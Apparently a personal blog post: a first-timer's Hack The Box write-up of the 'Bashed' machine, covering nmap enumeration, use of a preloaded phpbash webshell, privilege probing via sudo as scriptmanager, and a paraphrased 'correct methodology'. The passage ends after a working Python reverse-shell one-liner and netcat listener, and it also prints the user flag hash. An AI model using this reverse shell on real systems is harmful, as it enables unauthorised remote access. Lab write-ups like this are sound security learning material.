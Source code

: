 ```yaml
---
layout: post
title: Bashed - First-Blood
categories:
- Hack The Box
---
```


>“As knowing where you're going is preferable to being lost, ask. Rabbit knows a thing or two, and I, myself, don't need a weathervane to tell which way the wind blows. Let your need guide your behaviour; suppress your instinct to lead; pursue Rabbit.”
> 
>―-Cheshire Cat, American McGee's Alice 

This was the first machine I've attempted to pop, the first real exercise in this field. Here I will describe the step I took to get both the `user` and `root` flags for this machine. Following my fumblings, I will detail how I should have proceeded to gain user and root access.

 
## User

It took me far too long to get the user flag. My first step was to use `nmap` to scan the IP of the target machine. This gave me a nice output imforming me that port 80 and was open and showed the supported HTTP methods.


![Nmap Scan]({{"/images/bashed-nmap-1.png" | https://v0lch0k.github.io/images/bashed-nmap-1.png }})

My next step was to browse to the site and see if I can find anything of interest.
Just by browsing the network traffic in the dev console in Chrome, I discovered several directories

- /css
- /php
- /js
- /demo-images

I also followed the links on the site to discover the github page for the `phpbash.php` script for a semi-interactive shell.

My first reaction was that I need to follow the instructions of the `phpbash`. I need to upload the script to the server and execute to access this remote shell.

I spent a long time following dead ends and attempting to understand the JS functions on the page, trying to find a way to upload this file to the server. Looking at the screenshots of `phpbash` in action I noticed an `uploads` folder. I then spent a little while attempting to upload the `phpbash.php` file to the uploads folder. Everything from post requests to python scripts. Nothing would work. 

A friend of mine who was also working on the machine at the time gave me a hint of "The owner of the machine does dev work on it". Even after this hint I was still lost. It finally clicked for me when I looked over the screenshots of `phpbash` in action more closely and realized that there must exist a `/dev` directory on the site.

![PHPBASHED]({{"/images/bashed-2.png" | https://v0lch0k.github.io/images/bashed-2.png }})
 
 Inside this directory `phpbash.php` was already pre-loaded. Executing it gave me user (`www-data-`) access to the machine. From there it was easy to navigate to the `www-data@bashed:/home/arrexel/user.txt` file and obtain the `user` flag.
 
 ## Root
 
 It took me about a week of on and off poking around to get the root flag, and even when I did I went in a round about way to finally get it. At first I wasn't sure how to proceed, Exploring the machine via the web client I noticed that there is a `root` folder that I did not have access to. My first assumption was that just like the `user` flag was in `user.txt` the `root` flag must be in a `root.txt` file. 
 
 I attempted to run some simple `find . | grep root.txt` commands which did not yield much information. I then decided to try my luck with a reverse shell. After an hour of bumbling around I managed to put together a python script to grant me a reverse shell.
 
 To get the script on the sever I used python's `SimpleHTTPServer` module to host the script on my machine and then using `wget` to download it to the machine through the web client. It wasn't long before I had a reverse shell. However, the reverse shell was still under the `www-data` user, meaning I was not able to do much with it, let alone browse the `root` directory, in which I was certain the flag resided.
 
 Doing some research on `privesc` I encountered a Linux enumeration script; `LinEnum.sh`. This proved to be a powerful tool. I quickly uploaded it to the `tmp` folder on the machine and ran the script. The output was a little more than I expected. Examing the several pages of output I was not completely sure what I was looking for. From my research I understood I need to look for something that was unusual or out of the ordinary, but for someone running this for the first time what was ordinary and what wasn't?
 
 I had also stumbled across a `privesc` script which I quickly ran on the target machine. Once again I recieved several pages worth of output I wasn't quite sure what to do with. I stared at both the `privesc` and `LinEnum` outputs for several hours trying to find something that could possibly be useful.
 
 I decided to then do some more exploration of the target machine. Exploring the base directory I noticed a `scripts` folder that I also did not have access to as the `www-data` user.  Going back to the `LinEnum` output I had noticed that there was a `scriptmanager` user that did not require a password. 
 
 I attempted to swap users to `scriptmanager` for a good hour. Later to only realise that I could use the `sudo -u scriptmanager <command>` command to execute commands as the `scriptmanager` user. First attempting to gain access to the `root` folder or read the `/root/root.txt` file, then understnading that I now had access to the `scripts` folder via `sudo`. Unfortunately I wasn't sure what to do with this information.
 
 Not knowing the complete ins and outs of how Linux privelages work I decided to write a python script that would look at the `/root/root.txt` and copy the text to a new file in the directory the script was run from. Having brand new access to the the `scripts` folder I thought I would utilize it to house my script. Using `sudo -u scriptmanager` I downloaded the python script to the `scripts` folder. I then attempted to execute the script from that folder only to be greeted with a `permission denied` warning. Slightly disappointed I looked in the `scripts` folder to now be greeted with a file that contained the `root` flag. Not completely sure how I accomplished this I decided to do some research on why this method worked, why even though i was greeted with a `permission denied` output the script was still able to successfully grant me the root flag.
 
 It was in my search for answers that I came across the [Info Security Geek](https://infosecuritygeek.com ) writeup for this this machine. The write up was password protected, luckily for me the password was the `root` flag from the machine. The following will be pretty much me paraphrasing the write up for Info Security Geek.
 
 ## The Correct Methodology 
 
 Thank you to the guys at Info Security Geek for this.
 
 ### Procedure
 
 1. Start of by using Nmap to scan the IP
 
 ```
 
 Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-07 13:27 AEDT
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.10 seconds
 
 ```
 
You can see from the results that Port 80 is open and the web server uses Apache httpd 2.4.18
  
  2. Since port 80 is open we can perform an HTTP enumeration using Nmaps built in scripts
  
```
root@Vindicare:~$ nmap -Pn -p 80 --script http-enum 10.10.10.68

Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-07 13:30 AEDT
Nmap scan report for 10.10.10.68
Host is up (0.30s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 27.51 seconds

```

This could also be achieved via brute-force using DIRB

```

To DO

```

DIRB did take a little longer to scan but both scans did yield the same results


3. Browsing to the site we notice Arrexel's post regarding him developing the phpbash on this server. ( Big Hint)

4. Looking at the `/dev/` directory reveals the presence of `phpbash.php`. Checking it's functionality it it really works!

5. Let's use the webshell to capture the user flag

```
www-data@bashed:/var/www/html/dev# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager

```

The home directory reveals two low privileged users: `arrexel` and `scriptmanager`. Looking in `arrexel's` home directory we find the `user` flag.

```

www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1

```

6. Let's create a reverse shell using python.

First we need to create a netcat listener on our Kali machine.

```

root@loki:~# nc -nlvp 1337
listening on [any] 1337 ...

```

Next we just use this handy python code on the web shell...

```

www-data@bashed:/home/arrexel#  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.128",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

